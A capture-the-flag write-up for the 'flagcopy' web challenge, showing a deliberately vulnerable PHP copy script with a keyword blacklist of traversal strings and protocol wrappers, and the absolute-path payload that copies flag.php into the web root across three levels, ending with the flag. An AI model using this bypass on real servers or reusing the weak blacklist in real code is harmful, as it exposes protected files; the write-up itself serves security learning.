

# flagcopy
> Jack was a self-proclaimed pirate who believed that information wanted to be free

## About the Challenge
We have been given a website that have a functionality the file called `flag.php` to new destination



If we press the `Source Code` button, we will be given a source code of `copy.php`

```php
<?php

// Make sure we have the destination filename
if(!isset($_GET['dest'])) {
    header('Content-Type: text/plain');
    header('Refresh: 2;url=..'); // Cool pirates don't use Location, docs: https://web.archive.org/web/20040811213204/http://devedge.netscape.com/library/manuals/1998/htmlguide/tags3.html
    echo "error! use: ?dest=<file>";
    exit(0);
}
$dst=$_GET['dest'];

// Prevent hackspettar
$disallow = Array(

    // Bad files
    'index.php', 'copy.php', 'flag.php',

    // Prevent traversals
    '..', './', '.\\',

    // Remove known bad characters
    '?','#','&', "\0",

    // Disallow bad protocols
    'http://','https://','ftp://','zip://','rar://','expect://','phar://','zlib://','glob://','ssh2://','ogg://',

    // TODO: Improve security
);
foreach($disallow as $word) {
    if (stripos($dst,$word) !== false) {
        echo "hacker attack detected!!1!";
        exit(0);
    }
}

// Copy the flag to it's new location
var_dump(copy('flag.php',$dst));
?>
```

So we can control the destination file

## How to Solve?
There are several levels that we need to pass in order to obtain the flag, and for these challenges, I am using the same payload for each level.

```
copy.php?dest=/var/www/html/dappppppppppppppp.txt
```

If I set `/var/www/html/dappppppppppppppp.txt`, the file called `flag.php` will be copied into `/var/www/html/dappppppppppppppp.txt`. And we need to access http://flagcopy-1.ctf.hackaplaneten.se/dappppppppppppppp.txt to check the content of `flag.php`

Repeat that steps until you obtain the flag. Here is the link of each level

* Level 1
```
http://flagcopy-1.ctf.hackaplaneten.se/uploads/copy.php?dest=/var/www/html/dappppppppppppppp.txt
```
* Level 2
```
http://flagcopy-1.ctf.hackaplaneten.se/flag-copy-final/uploads/copy.php?dest=/var/www/html/dappppppppppppppp.txt
```
* Level 3
```
http://flagcopy-1.ctf.hackaplaneten.se/flag-copy-final-pinky-promise-seriously/uploads/copy.php?dest=/var/www/html/dappppppppppppppp.txt
```


```
SECFEST{@nt1p1ratByr0n_w0ulD_b3_pr0uD}
```